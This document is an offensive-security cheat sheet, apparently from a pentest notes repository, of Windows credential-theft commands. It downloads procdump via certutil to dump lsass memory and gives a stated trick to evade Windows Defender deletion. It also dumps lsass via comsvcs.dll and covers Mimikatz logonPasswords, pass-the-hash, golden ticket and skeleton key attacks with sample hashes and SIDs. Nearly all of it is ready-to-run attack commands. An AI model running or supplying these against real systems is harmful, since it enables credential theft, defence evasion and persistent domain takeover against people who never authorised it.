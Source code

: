 Dump the lsass process with `procdump`

> Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.

```powershell
# HTTP method - using the default way
certutil -urlcache -split -f http://live.sysinternals.com/procdump.exe C:\Users\Public\procdump.exe
C:\Users\Public\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# SMB method - using the pid
net use Z: https://live.sysinternals.com
tasklist /fi "imagename eq lsass.exe" # Find lsass's pid
Z:\procdump.exe -accepteula -ma $lsass_pid lsass.dmp
```

Dump the lsass process with `rundll32`

```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```



Then load it inside Mimikatz.

```powershell
mimikatz # sekurlsa::minidump lsass.dmp
Switch to minidump
mimikatz # sekurlsa::logonPasswords
```

## Mimikatz - Pass The Hash

```powershell
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

## Mimikatz - Golden ticket

```powershell
.\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```

```powershell
.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

## Mimikatz - Skeleton key

```powershell
privilege::debug
misc::skeleton
# map the share
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# login as someone
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```
